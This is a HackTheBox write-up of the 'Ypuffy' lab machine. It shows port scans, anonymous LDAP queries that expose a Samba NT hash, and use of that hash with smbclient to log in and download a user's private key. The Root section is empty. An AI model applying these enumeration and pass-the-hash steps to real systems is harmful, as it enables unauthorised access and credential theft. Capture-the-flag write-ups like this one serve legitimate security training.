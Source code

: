 ```yaml
---
title: "HTB Write-up: Ypuffy"
date: 2019-01-05
category: [HackTheBox]
tags: [HackTheBox, HTB, ]
header:
    teaser: "/assets/images/htb/ypuffy/ypuffy.png"
---
```


![ypuffy_info.png](/assets/images/htb/ypuffy/ypuffy_info.png)

*Note: I completed this challenge on January 5th, 2019, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin enumeration, the `masscan` tool was used to scan the target system for open ports. 

```
root@kali:~/workspace/hackthebox/Ypuffy# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.107

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-26 23:05:58 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 445/tcp on 10.10.10.107                                   
Discovered open port 22/tcp on 10.10.10.107                                    
Discovered open port 389/tcp on 10.10.10.107                                   
Discovered open port 80/tcp on 10.10.10.107                                    
Discovered open port 139/tcp on 10.10.10.107
   
```

This scan revealed that a variety of ports were open and listening for connections. TCP ports 445 and 139 are used with SMB, port 389 is used for LDAP, port 80 is used as a HTTP port, and port 22 is SSH. Taking these open ports, the `nmap` tool was then used to further enumerate the open ports.

```
root@kali:~/workspace/hackthebox/Ypuffy# nmap -p 445,22,389,80,139 -sC -sV -oA scans/discovered-tcp 10.10.10.107
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-26 16:11 MST
Nmap scan report for 10.10.10.107
Host is up (0.066s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6)
|   Computer name: ypuffy
|   NetBIOS computer name: YPUFFY\x00
|   Domain name: hackthebox.htb
|   FQDN: ypuffy.hackthebox.htb
|_  System time: 2019-12-26T18:12:10-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-12-26T23:12:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.04 seconds
```

The `nmap` output regarding port 80 suggests that this is a OpenBSD system. The scan has also reported that anonymous binds are allowed on the LDAP server on port 389. LDAP stands for "Lightweight Directory Access Protocol" and is often used for user validation validation to particular resources, amongst other things. The LDAP service running port 389 was enumerated further using the `nmap` scripting engine.

```
root@kali:~/workspace/hackthebox/Ypuffy# nmap --script /usr/share/nmap/scripts/ldap-search.nse 10.10.10.107
```

Querying the LDAP service reveals some information about the target system, including some configured users.

```
...
dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb                                    
    uid: bob8791                                                                  
    cn: Bob                                                                       
    objectClass: account                                                          
    objectClass: posixAccount                                                     
    objectClass: top                                                              
    userPassword: {BSDAUTH}bob8791                                                
    uidNumber: 5001                                                               
    gidNumber: 5001                                                               
    gecos: Bob                                                                    
    homeDirectory: /home/bob8791                                                  
    loginShell: /bin/ksh    
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb                                                                                                                            
    uid: alice1978                                                                                                                                                          
    cn: Alice                                                                                                                                                               
    objectClass: account
    objectClass: posixAccount
    objectClass: top
    objectClass: sambaSamAccount
    userPassword: {BSDAUTH}alice1978
    uidNumber: 5000
    gidNumber: 5000
    gecos: Alice
    homeDirectory: /home/alice1978
    loginShell: /bin/ksh
    sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
    displayName: Alice
    sambaAcctFlags: [U          ]
    sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
    sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
    sambaPwdLastSet: 1532916644
...
```

The `userPassword` fields look juicy, but some [research](http://puffysecurity.com/wiki/ypldap.html) on the setup of an OpenBSD LDAP server and YP domains via `ypldap` explains that the presence of  `userPassword` means that the configured user will be authenitacted by `{BSDAUTH}` and that passwords are checked against a Blowfish hash stored in LDAP.

The entry for the `alice1978` user additionally contains a value in the `sambaNTPassword` field. This value is a Samba password that is hashed using the MD4 algorithm. With the help of the `smbclient` tool, the hashed Samba password can be used to authenticate to the SMB service on port 445 as the user `alice1978`.

From `man smbclient`:

```
--pw-nt-hash
    The supplied password is the NT hash.
```

First, the available Samba shares were listed via the command below with `0B186E661BBDBDCF6047784DE8B9FD8B` as the password.

```
root@kali:~/workspace/hackthebox/Ypuffy# smbclient --user=alice1978 --pw-nt-hash -L //10.10.10.107 
Enter WORKGROUP\alice1978's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        alice           Disk      Alice's Windows Directory
        IPC$            IPC       IPC Service (Samba Server)
...
```

Next, the `alice` share was accessed once again using the hashed Samba password for authentication.

```
root@kali:~/workspace/hackthebox/Ypuffy# smbclient --user=alice1978 --pw-nt-hash //10.10.10.107/alice
```

After connecting and listing the files with the `dir` command, the only file present in the `alice` SMB share is `my_private_key.ppk`. The `.ppk` extension suggests that this is a PuTTY private key file, and that the contents within are the `alice` user's private SSH key. The `my_private_key.ppk` file can be copied to the attacking system using the `get` SMB command.

```
smb: \> get my_private_key.ppk 
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (6.0 KiloBytes/sec) (average 6.0 KiloBytes/sec)
```







## Root


